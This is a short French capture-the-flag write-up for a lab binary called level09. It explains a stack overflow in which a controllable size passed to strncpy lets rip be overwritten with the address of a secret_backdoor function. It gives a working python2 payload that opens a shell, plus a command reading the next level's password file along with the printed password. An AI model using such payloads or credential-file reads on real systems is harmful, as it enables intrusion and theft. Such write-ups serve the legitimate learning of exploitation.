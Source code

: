 # level09

On voit qu'avec `set_username()`, on peut écrire la `size` qui sera utilisé lors du `strncpy` dans `set_msg`.

Grâce à cela, dans `set_msg`, on pourra réecrire `rip`, et y mettre l'adresse de la fonction `secret_backdoor()`.

L'adresse de la fonction `secret_backdoor`:
```
(gdb) info function secret_backdoor
All functions matching regular expression "secret_backdoor":

Non-debugging symbols:
0x000055555555488c  secret_backdoor
```

Notre payload:
- Remplir username de "A", et mettre la size à `\xff`
- Remplir toute la structure jusque `rip`, et écrire l'adresse de `secret_backdoor`
- Utiliser la backdoor pour obtenir un shell
- Déguster le shell tant qu'il sort du four

```bash
(python2 -c 'print "A"*40 + "\xff"'; python2 -c 'print "B"*200 + "\x8c\x48\x55\x55\x55\x55\x00\x00"'; echo "/bin/sh"; cat) | ./level09
```

```bash
cat /home/users/end/.pass
# j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```
